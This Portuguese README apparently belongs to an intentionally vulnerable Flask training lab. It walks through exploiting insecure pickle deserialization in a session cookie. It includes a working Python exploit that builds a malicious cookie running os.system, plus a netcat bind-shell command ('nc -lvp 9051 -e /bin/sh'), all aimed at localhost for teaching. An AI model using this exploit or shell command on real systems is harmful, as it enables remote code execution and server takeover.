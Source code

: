 # Amarelo Designs

<p align="center">
    <img src="images/Amarelo-Designs.png"/></br>
    <a href="README.md"><img height="24" title="Access content in English" src="https://img.shields.io/badge/Access%20content%20in-English-blue"/></a>
</p>

Esta é uma aplicação web simples construída com Flask que contém um exemplo de vulnerabilidade de falha de integridade de software e dados e, seu principal objetivo é descrever como um usuário malicioso poderia explorar uma vulnerabilidade, instalada intencionalmente no Amarelo Designs do secDevLabs, para obter dados remotos cegos execução do código. 

## Index

- [Amarelo Designs](#amarelo-designs)
  - [Index](#index)
  - [O que é falha de integridade de software e dados?](#o-que-é-falha-de-integridade-de-software-e-dados)
  - [Como inicializar o aplicativo?](#como-inicializar-o-aplicativo)
  - [Conheça o app 🎨](#conheça-o-app-)
  - [Narrativa de ataque](#narrativa-de-ataque)
    - [👀](#)
      - [O uso de uma função de desserialização insegura permite a execução remota de código](#o-uso-de-uma-função-de-desserialização-insegura-permite-a-execução-remota-de-código)
    - [🔥](#-1)
  - [Proteger este aplicativo](#proteger-este-aplicativo)
  - [PR Soluções](#pr-soluções)
  - [Contribuição](#contribuição)

## O que é falha de integridade de software e dados?

A serialização é o processo de tradução de estruturas de dados ou estado de objeto, em um formato que pode ser armazenado ou transmitido e reconstruído posteriormente. A desserialização insegura geralmente leva à execução remota de código. Mesmo que as falhas de desserialização não resultem em execução remota de código, elas podem ser usadas para realizar ataques, incluindo ataques de repetição, ataques de injeção e ataques de escalação de privilégios. 

O objetivo principal deste aplicativo é discutir como as vulnerabilidades **Software and Data Integrity Failure** podem ser exploradas e encorajar os desenvolvedores a enviar solicitações pull do secDevLabs sobre como mitigar essas falhas. 

## Como inicializar o aplicativo?

Para iniciar este **aplicativo inseguro** intencionalmente, você precisará do [Docker][Docker Install] e do [Docker Compose][Docker Compose Install]. Depois de clonar o repositório [secDevLabs](https://github.com/globocom/secDevLabs), no seu computador, você deve digitar os seguintes comandos para iniciar o aplicativo:

```sh
cd secDevLabs/owasp-top10-2021-apps/a8/amarelo-designs
```

```sh
make install
```

Depois é só visitar [localhost:10008][app] ! 😆

## Conheça o app 🎨

Para entender corretamente como esse aplicativo funciona, você pode seguir estes passos simples:

- Visite a página inicial!
- Dê uma olhada no portfólio

## Narrativa de ataque

Agora que você conhece o propósito deste aplicativo, o que pode dar errado? A seção a seguir descreve como um invasor pode identificar e, eventualmente, encontrar informações confidenciais sobre o aplicativo ou seus usuários. Recomendamos que você siga estas etapas e tente reproduzi-las por conta própria para entender melhor o ataque! 😜

### 👀

#### O uso de uma função de desserialização insegura permite a execução remota de código

É possível acessar a aplicação web do servidor a partir da porta HTTP 10008, como mostra a imagem abaixo:

<img src="images/attack1.png" align="center"/>

Fazendo uso da ferramenta [Dirb] para pesquisar páginas da web e diretórios comuns [wordlist], conseguimos encontrar `/user`, `/admin` e `/console`, como mostra a figura abaixo: (Se você deseja instalar o Dirb para Mac OS, certifique-se de clicar [aqui][4]) 

```sh
$ dirb http://localhost:10008 ./../../../docs/common.txt
```

<p align="center">
    <img src="images/attack2.png"/>
</p>

Ao ser acessada, a página `/admin` expõe uma tela de autenticação, conforme ilustrado na imagem: 

<p align="center">
    <img src="images/attack3.png"/>
</p>

### 🔥

Um teste rápido utilizando `admin` como credenciais para os campos `Username` e `Password`, nos dá acesso a um Admin Dashboard, conforme mostrado abaixo:

<img src="images/attack4.png" align="center"/>

Agora, usando o [Burp Suite] como proxy para interceptar a solicitação de login, podemos ver que o aplicativo retorna um cookie de sessão, `sessionId`, conforme ilustrado abaixo:

<img src="images/attack5.png" align="center"/>

Após decodificar o cookie, que está em base64, foi encontrada a seguinte estrutura:

<img src="images/attack6.png" align="center"/>

A estrutura encontrada é muito semelhante às criadas com a função [Pickle]. Podemos ter certeza disso dando uma olhada no [código][3] do aplicativo. A dica já está confirmada, o app usa Pickle, como podemos ver na imagem abaixo:

<img src="images/attack7.png" align="center"/>

Se um invasor souber que o aplicativo usa `Pickle` como método de serialização, ele poderá criar um cookie malicioso para aproveitá-lo e executar o código remotamente. Um exemplo de exploit (serializaPickle.py) no Python 3 que poderia produzir esse cookie poderia ser:

```python
import pickle
import os
import base64
import sys
import requests

cmd = str(sys.argv[1])
url = str(sys.argv[2])


class Exploit(object):
    def __reduce__(self):
        return (os.system, (cmd, ))


pickle_result = pickle.dumps(Exploit())

result = str(base64.b64encode(pickle_result), "utf-8")

print(result)
print(cmd)
print(url)

cookie = {'sessionId': result}

print(cookie)

r = requests.get(url, cookies=cookie)
```

Para ter certeza de que o aplicativo é explorável, enviaremos um comando de suspensão para que o aplicativo não responda por 10 segundos. Se o aplicativo demorar 10 segundos para retornar nossa solicitação, então está confirmado, o aplicativo é explorável. Como podemos ver na imagem abaixo, o aplicativo demora um pouco para retornar nossa solicitação, confirmando assim que é explorável e confirmando a execução remota do código:

```sh
$ python3 serializaPickle.py "sleep 10" http://localhost:10008/user
```

<img src="images/attack9.png" align="center"/>

Para mostrar como um invasor pode ter acesso ao servidor por meio de um RCE, usaremos o código descrito na imagem abaixo para criar um shell de ligação na porta 9051 do servidor.

```sh
$ python3 serializaPickle.py "nc -lvp 9051 -e /bin/sh" http://localhost:10008/user
```

<img src="images/attack10.png" align="center"/>

O código usado acima cria um shell de ligação na porta 9051 do servidor, que está ouvindo as conexões de entrada. Depois disso, o invasor pode se conectar a essa porta usando um simples comando [netcat], conforme mostrado abaixo: 

```sh
$ nc localhost 9051
```

<p align="center">
    <img src="images/attack11.png"/>
</p>

## Proteger este aplicativo

Como você arrumaria essa vulnerabilidade? Após suas alterações, um invasor não poderá:

- Execute código remotamente por meio de uma vulnerabilidade de serialização

## PR Soluções

[Alerta de spoiler 🚨 ] Para entender como essa vulnerabilidade pode ser resolvida, confira [these pull requests](https://github.com/globocom/secDevLabs/pulls?q=is%3Apr+label%3A%22mitigation+solution+%F0%9F%94%92%22+label%3A%22Amarelo+Designs%22)!

## Contribuição

Nós encorajamos você a contribuir com o SecDevLabs! Por favor, confira a seção [Contribuição no SecDevLabs](../../../docs/CONTRIBUTING.md) de como fazer a sua contribuição!🎉 🎉

[docker install]: https://docs.docker.com/install/
[docker compose install]: https://docs.docker.com/compose/install/
[app]: http://localhost:10008
[secdevlabs]: https://github.com/globocom/secDevLabs
[2]: https://github.com/globocom/secDevLabs/tree/master/owasp-top10-2021-apps/a8/amarelo-designs
[dirb]: https://tools.kali.org/web-applications/dirb
[burp suite]: https://en.wikipedia.org/wiki/Burp_suite
[3]: https://github.com/globocom/secDevLabs/blob/master/owasp-top10-2021-apps/a8/amarelo-designs/app/app.py
[pickle]: https://docs.python.org/2/library/pickle.html
[netcat]: https://en.wikipedia.org/wiki/Netcat
[4]: https://github.com/globocom/secDevLabs/blob/master/docs/Dirb.md
[wordlist]: https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/common.txt
